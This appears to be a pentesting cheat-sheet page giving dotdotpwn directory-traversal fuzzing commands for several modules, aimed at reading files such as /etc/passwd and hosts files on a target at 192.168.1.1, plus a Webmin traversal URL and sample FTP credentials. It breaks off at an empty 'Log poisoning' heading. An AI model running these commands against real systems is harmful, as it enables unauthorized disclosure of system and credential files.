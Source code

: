 ### dotdotpwn <a href="#dotdotpwn" id="dotdotpwn"></a>

#### HTTP Module <a href="#http-module" id="http-module"></a>

```
http://www.effecthacking.com/2017/04/dotdotpwn-directory-traversal-fuzzing-tool.html
```

```
./dotdotpwn.pl -m http -h 192.168.1.1 -x 8080 -f /etc/hosts -k "localhost" -d 8 -t 200 -s
```

```
./dotdotpwn.pl -m http -h 192.168.1.1 -O -X -M POST -e .php -E
```

#### HTTP URL Module <a href="#http-url-module" id="http-url-module"></a>

```
./dotdotpwn.pl -m http-url -u http://192.168.1.1:10000/unauthenticated/TRAVERSAL -O -k "root:" -r webmin.txt
```

#### FTP Module <a href="#ftp-module" id="ftp-module"></a>

```
./dotdotpwn.pl -m ftp -h 192.168.1.1 -s -U nitr0us -P n1tr0u5pwnzj00 -o windows -q -r ftp_server.txt
```

#### TFTP Module <a href="#tftp-module" id="tftp-module"></a>

```
./dotdotpwn.pl -m tftp -h 192.168.1.1 -b -t 1 -f windows/system32/drivers/etc/hosts
```

#### Payload Module <a href="#payload-module" id="payload-module"></a>

```
./dotdotpwn.pl -m payload -h 192.168.1.1 -x 10000 -p payload_sample_1.txt -k "root:" -f /etc/passwd
```

#### STDOUT Module <a href="#stdout-module" id="stdout-module"></a>

good for producing a list of LFIs to try, maybe on another tool

```
./dotdotpwn.pl -m stdout -d 5
```

### Log poisoning <a href="#log-poisoning" id="log-poisoning"></a>
